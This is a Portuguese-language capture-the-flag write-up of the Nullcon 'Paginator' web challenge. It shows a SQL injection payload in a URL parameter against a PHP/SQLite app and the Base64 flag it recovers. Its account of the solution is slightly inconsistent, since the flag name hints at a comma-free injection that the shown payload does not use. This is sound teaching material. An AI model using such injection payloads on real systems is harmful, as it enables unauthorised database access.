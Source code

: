 # Nullcon CTF: Paginator

**Plataforma**: Nullcon CTF  
**Categoria**: Web Exploitation
**Autor**: gehaxelt

## Desafio

O desafio "Paginator" apresenta um site vulnerável a SQL Injection, permitindo acesso não autorizado ao conteúdo do banco de dados SQLite. O objetivo é explorar essa vulnerabilidade para obter a flag.

---

## Solução

### 1. Análise do código

A análise do código PHP revela que a aplicação usa um banco de dados SQLite para armazenar páginas e suas respectivas descrições. O código relevante pode ser visto na imagem abaixo:

![Imagem 1: Código fonte do desafio](./assets/code.jpg)

#### Pontos importantes:

- O banco de dados armazena páginas numeradas de **1 a 10**.
- A flag está armazenada na página "Flag", codificada em **Base64**.
- O código permite consultas SQL diretamente via parâmetro `p` na URL.
- A consulta **NÃO usa prepared statements**, tornando-a vulnerável a **SQL Injection**.

---

### 2. Identificação da vulnerabilidade

O site possui uma funcionalidade para listar páginas dentro de um intervalo de IDs, acessível pela URL:

```
/?p=2,10
```

A consulta SQL gerada é:

```sql
SELECT * FROM pages WHERE id >= 2 AND id <= 10;
```

Como não há filtragem de entrada adequada, podemos manipular o parâmetro para injetar SQL arbitrário.

---

### 3. Explorando a SQL Injection

Ao modificar a URL para:

```
/?p=2,10 OR id=1 --
```

Estamos alterando a consulta SQL para:

```sql
SELECT * FROM pages WHERE id >= 2 AND id <= 10 OR id=1 --
```

Isso força a inclusão da **página com ID 1**, que contém a flag.

**URL injetada:**

![Imagem 2: URL injetada](./assets/sql_injection.jpg)

A resposta do servidor retorna a flag codificada em **Base64**:

```
RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvdyF9
```

---

### 4. Decodificação da Flag

Usamos uma ferramenta online ou o comando `base64 -d` no terminal:

```
echo 'RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvdyF9' | base64 -d
```

## Flag

```
ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow!}
```

---

## Autor da WriteUp

[Membro de Exploitation - jvittor1](https://github.com/jvittor1)
